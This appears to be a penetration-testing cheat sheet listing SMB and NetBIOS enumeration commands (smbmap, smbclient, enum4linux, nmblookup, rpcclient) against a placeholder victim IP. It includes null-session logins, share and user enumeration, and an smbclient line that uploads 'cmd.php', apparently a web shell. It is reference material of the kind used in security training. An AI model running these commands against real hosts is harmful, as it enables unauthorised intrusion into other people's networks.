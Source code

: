 - SMBmap tool
```
 smbmap -H <victim_ip>
 smbmap -H <victim_ip> -R
 smbmap -H <victim_ip> -u login -p password
 smbmap -H <victim_ip> -u anonymous -d directory
```

- SMBclient tool
```
 smbclient \\\\[victim_ip]\\[sharename]
 smbclient -N -L \\\\\[victim_ip]
 smbclient -N -L //[victim_ip]/directory
 smbclient //[victim_ip]/"[victim_folder]" -m NT1 --option="client min protocol=NT1"
 smbclient -L <victim_ip> -U user_name
 smbclient //<victim_ip/<resources> -U "user_login"
 smbclient -U 'user%password' //<victim_ip>/resources
 
- File upload via smbclient
smbclient -N //<victim_ip>/<folder> -c 'put cmd.php cmd.php'
```

- enum4linux
```
- Share Enumeration:
  enum4linux-S [victim_ip]
  
- Usernames Enumeration:
  enum4linux -U -P [victim_ip]

- All Enumeration:  
  enum4linux -a [victim_ip]
  enum4linux -a  [victim_ip]
  enum4linux -u 'guest' -p '' -a  [victim_ip]
```

#### Nmblookup
nmblookup is used to query NetBIOS names and map them to IP addresses in a network
using NetBIOS over TCP/IP queries. 
```
nmblookup -A <ip>
```


#### rpcclient
- rpcclient -U "" -N [victim_ip]
```
  -U "" - null session
  -N - no password
```

- Get a list of users
```
enumdomusers
```
